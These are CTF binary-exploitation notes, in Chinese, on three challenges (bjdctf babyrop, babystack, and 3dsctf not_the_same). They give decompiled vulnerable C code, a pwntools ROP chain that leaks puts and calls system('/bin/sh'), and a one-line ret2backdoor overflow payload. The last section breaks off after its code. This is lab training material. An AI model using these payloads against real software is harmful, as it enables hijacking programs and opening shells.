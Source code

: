 ## bjdctf_2020_babyrop

[铁人三项(第五赛区)_2018_rop](#铁人三项(第五赛区)_2018_rop)的64位版

```python
pop_rdi_ret = next(elf.search(asm('pop rdi\nret')))
payload_a = b'a'*0x28 + p64(pop_rdi_ret) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(elf.symbols['vuln'])
payload_b = b'a'*0x28 + p64(pop_rdi_ret) + p64(bin_sh) + p64(system)
```

## bjdctf_2020_babystack

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[12]; // [rsp+0h] [rbp-10h] BYREF
  size_t nbytes; // [rsp+Ch] [rbp-4h] BYREF
  //...
  __isoc99_scanf("%d", &nbytes);
  puts("[+]What's u name?");
  read(0, buf, (unsigned int)nbytes);
  return 0;
}
```

简单`gets()`缓冲区溢出，并且有`backdoor()`函数（0x4006e6）调用`system("/bin/sh")`

`io.sendlines([b'10086', b'a'*0x18 + p64(0x4006e6)])`

## not_the_same_3dsctf_2016

比[bjdctf_2020_babystack](#bjdctf_2020_babystack)稍微复杂一点的简单题，

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[45]; // [esp+Fh] [ebp-2Dh] BYREF

  printf("b0r4 v3r s3 7u 4h o b1ch4o m3m0... ");
  gets(v4);
  return 0;
}

int get_secret()
{
  int v0; // esi

  v0 = fopen("flag.txt", &unk_80CF91B);
  fgets(&fl4g, 45, v0);
  return fclose(v0);
}
```
